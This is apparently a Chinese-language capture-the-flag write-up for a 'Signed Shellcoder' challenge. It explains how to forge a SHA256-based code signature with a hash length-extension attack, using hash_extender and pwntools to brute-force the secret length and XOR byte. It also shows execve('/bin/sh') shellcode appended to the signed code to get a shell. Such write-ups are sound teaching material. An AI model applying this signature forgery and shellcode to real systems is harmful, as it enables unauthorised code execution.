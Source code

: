 # Signed Shellcoder

这段代码能干啥？

```assembly
# put message into stack
for ch in msg[::-1]:
	mov rcx, {ch}
	push rcx

mov rdi, 1
mov rsi, rsp
mov rdx, {msg_len}
mov rax, 1 # SYS_WRITE

# syscall(SYS_WRITE, STD_OUT, STACK, msg_len)
syscall

add {reg}, rcx
```

会通过 SHA256 对这些生成的代码签名，不符合的不予运行。

看起来好安全。

毫无疑问，我们的目的就是把这段代码给改成

```assembly
# put `/bin/sh` into stack
for ch in msg[::-1]:
	mov rcx, {ch}
	push rcx
	
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 59 # SYS_EXECVE

# syscall(SYS_EXECVE, STACK, 0, 0)
syscall
```

将其正确签名後，交给他执行。

然而……签名的过程是这样的：

1. 随机生成一个 32 ～ 64 字节的 Key，保存在 `SECRET_KEY` 中备用；
2. 随机选择一个 0 ～ 15 的数字，放在 `BKEY` 中备用；

Hash 的过程是，将 SECRET_KEY + data 交给 SHA256 进行 Digest，并且将其最后一位和 BKEY 做异或。得到的结果和 data 打包交给 Shellcoder。

> 后面半段就是数字签名嘛

解密的时候，所进行的操作是分离出 Signature 和 Data，对 Data 再进行一次 Digest，和 Signature 进行比较，从而判定这一 Shellcoder 是否合法。

换句话说，就是要伪造出「代码的数字签名」，骗过 Shellcoder。

换句话说，要在不知道 SECRET_KEY 的情况下，生成一对 (Data, Signature)（其中 Data 是恶意的）能通过 `hash_data` 检验。

显然，这里面用的 SHA256 算法就适用哈希扩展攻击。

不需要就任意的 Data 得到任意的 Signature，只要通过已知的一对（Data, Sig）生成（Data + Suffix，Sig）就可以了。

反正到时候都是要顺序执行的。

先生成（`/bin/sh` + `/rcx`）的一组 Data + Sig，然后只要在代码段後面添加上

```assembly
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 59 # SYS_EXECVE
```

就大功告成了。

[HashExtender](https://github.com/iagox86/hash_extender) 刚好支持这种奇妙的攻击方式。

用法如下：

```shell
yue$ ./hash_extender --data data --secret 6 --append append --signature 6036708eba0d11f6ef52ad44e8b74d5b --format md5
```

假定 Hash 时的内存排布是这样的：

```
0000  73 65 63 72 65 74 64 61 74 61 80 00 00 00 00 00  secretdata......
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 00 00 00 00 00 00 50 00 00 00 00 00 00 00  ........P.......
```

因此我们构造这样的 Payload：

```
0000  64 61 74 61 80 00 00 00 00 00 00 00 00 00 00 00  data............
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 50 00 00 00 00 00 00 00 61 70 70 65 6e 64  ..P.......append
```

因为 Padding 规则，会变成这样：

```
0000  73 65 63 72 65 74 64 61 74 61 80 00 00 00 00 00  secretdata......
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 00 00 00 00 00 00 50 00 00 00 00 00 00 00  ........P.......
0040  61 70 70 65 6e 64                                append
```

让 append 独立于一个块进行 Hash，就有可能进行攻击。

这样做的条件是我们要知道 `secret` 的长度。好在根据 Python 脚本，这是一个 32 到 64 字节长的任意数字。

只要碰 32 次长度就好了。

但是，别忘了我们的 Hash 值最后一字节是被一个 0 ~ 16 的数字 XOR 过的。所以在不利用加密算法知识的情况下，我们还得尝试 16 倍的次数。

总的尝试次数也就 512 次，可以接受。

> 实际上 Hash Extender 提供了尝试不同长度的参数！太厉害了！

但是，好遗憾的是，这个 Python 脚本设置了 120 秒的超时。

我们没时间等下去！

得用 pwntools 自动化。

好了，现在应该已经伪造签名了。

![getshell](notes.assets/getshell.png)

在后面加入 Getshell 的代码就好了。

`shellcraft` 弄出来的过不了。手动写了一段用 `pwnlib.asm` 编译的就好了。

注意执行 Shellcode 的时候，设置了一个 1 秒钟的 Alarm。超过就自动结束，所以我们的 Shell 活不过一秒的。

> 但是，已经够了。

